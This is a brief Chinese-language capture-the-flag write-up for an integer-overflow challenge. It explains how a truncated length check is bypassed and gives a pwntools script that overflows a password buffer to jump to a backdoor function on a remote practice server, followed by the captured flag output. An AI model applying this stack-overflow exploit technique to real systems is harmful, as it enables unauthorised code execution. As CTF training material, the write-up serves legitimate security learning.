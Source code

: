 ```c
  }
  return result;
}
```

v3需要在4到8之间，可以转变为260-264截断，这里的payload的长度为262.

有后门函数。

payload：

```python
from pwn import *

#io  = process("./int_overflow")
io  = remote('111.200.241.244',47612)
back_door_addr = 0x08048694 

io.sendlineafter("choice:",'1')
io.sendlineafter("username:","aaaa")

payload = 'a'*(0x14 + 4 ) + p32(back_door_addr) + 'a'*233
io.sendlineafter("passwd:", payload)

io.interactive()
```

flag：

```
yutao@pwnbaby:~/Desktop$ python 1.py 
[+] Opening connection to 111.200.241.244 on port 47612: Done
[*] Switching to interactive mode

Success
cyberpeace{570351d22dfa4892efd56550fe59aa63}
[*] Got EOF while reading in interactive
$ 

[*] Closed connection to 111.200.241.244 port 47612
```




